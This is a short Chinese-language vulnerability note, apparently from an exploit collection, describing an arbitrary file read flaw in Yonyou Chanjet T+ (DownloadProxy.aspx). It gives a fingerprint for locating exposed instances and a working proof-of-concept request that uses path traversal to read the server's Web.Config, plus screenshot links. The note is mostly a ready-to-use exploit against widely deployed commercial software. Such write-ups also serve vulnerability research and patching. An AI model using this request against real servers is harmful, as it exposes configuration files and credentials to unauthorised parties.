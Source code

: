 # 用友 畅捷通T+ DownloadProxy.aspx 任意文件读取漏洞

## 漏洞描述

用友 畅捷通T+ DownloadProxy.aspx文件存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器上的敏感文件

## 漏洞影响

<a-checkbox checked>用友 畅捷通T+</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="畅捷通-TPlus"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1662017510454-8bb328d0-35ee-42f9-a36a-625e95a5cfc2-20220903111940237.png)

验证POC

```php
/tplus/SM/DTS/DownloadProxy.aspx?preload=1&Path=../../Web.Config
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1662017739558-82948854-e961-4934-8ac2-c29e660277b2.png)